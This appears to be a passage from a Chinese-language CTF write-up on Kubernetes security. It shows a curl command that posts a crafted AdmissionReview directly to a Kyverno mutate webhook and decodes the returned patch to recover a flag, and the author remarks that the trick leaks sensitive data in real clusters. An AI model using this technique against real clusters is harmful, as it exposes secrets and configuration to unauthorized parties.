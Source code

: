 扔给 GPT 让他结合上面官方给的例子帮忙转下即可（其中有不少字段是可以扔掉的，不过像 requestKind、requestResource等一些字段是不能扔掉的，完整入参见 `k8s.io/api/admission/v1/types.go:AdmissionRequest`）

```bash
curl -k -X POST https://kyverno-svc.kyverno.svc.cluster.local./mutate -H "Content-Type: application/json" --data '{"apiVersion":"admission.k8s.io/v1","kind":"AdmissionReview","request":{"uid":"705ab4f5-6393-11e8-b7cc-42010a800002","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"example-pod","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"admin","uid":"014fbff9a07c","groups":["system:authenticated"]},"object":{"apiVersion":"v1","kind":"Pod","metadata":{"name":"example-pod","namespace":"sensitive-ns"},"spec":{"containers":[{"name":"example-container","image":"nginx","env":[{"name":"FLAG","value":"{flag}"}]}]}},"oldObject":null,"options":{"apiVersion":"meta.k8s.io/v1","kind":"CreateOptions"},"dryRun":true}}'
```

![Untitled](image/2024-03-22/Untitled%204.png)

把 patch 部分 base64 解码就可以得到 flag 了

> 题目提示1：[https://github.com/anderseknert/kube-review](https://github.com/anderseknert/kube-review) 这个工具可以将创建Pod的yaml文件直接转AdmissionReview请求json参数，就不用GPT了，也不用对着`AdmissionRequest` 入参一个个敲
> 

这种利用手段主要是在实际利用中获取敏感信息，并不是所有开发都会把敏感信息放 secret 里的（亲身体验

----

本文发布已获得"云原生安全资讯"项目授权, 同步发布于以下平台

* github: [https://github.com/cloud-native-security-news/cloud-native-security-news](https://github.com/cloud-native-security-news/cloud-native-security-news)
* blog: [tari Blog](https://tari.moe)

欢迎加入 "云原生安全资讯"项目 👏 阅读、学习和总结云原生安全相关资讯